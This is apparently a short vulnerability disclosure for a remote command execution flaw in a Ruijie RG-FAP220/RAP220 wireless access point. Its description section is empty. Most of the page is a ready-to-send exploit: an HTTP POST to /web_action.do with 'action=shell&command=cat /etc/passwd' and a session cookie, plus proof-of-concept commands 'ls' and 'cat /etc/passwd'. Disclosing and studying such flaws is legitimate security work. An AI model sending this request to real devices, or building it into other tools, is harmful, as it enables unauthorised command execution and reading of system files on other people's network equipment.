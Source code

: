 # RG-FAP220 RCE
### Discoverer
Yangyi
## Overview

![image-20231222163155940](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222163155940.png)

## Vulnerability details



## POC

ls

![image-20231222164924298](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222164924298.png)

cat /etc/passwd

![image-20231222163247926](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222163247926.png)

## EXP

```
POST /web_action.do HTTP/1.1
Host: 192.168.110.1
Content-Length: 38
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.110.1
Referer: http://192.168.110.1/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; mac=0074.9ce6.95c0; SID=D65FDBE5CA6D86B59F94D3BF3872D87
Connection: close

action=shell&command=cat /etc/passwd
```

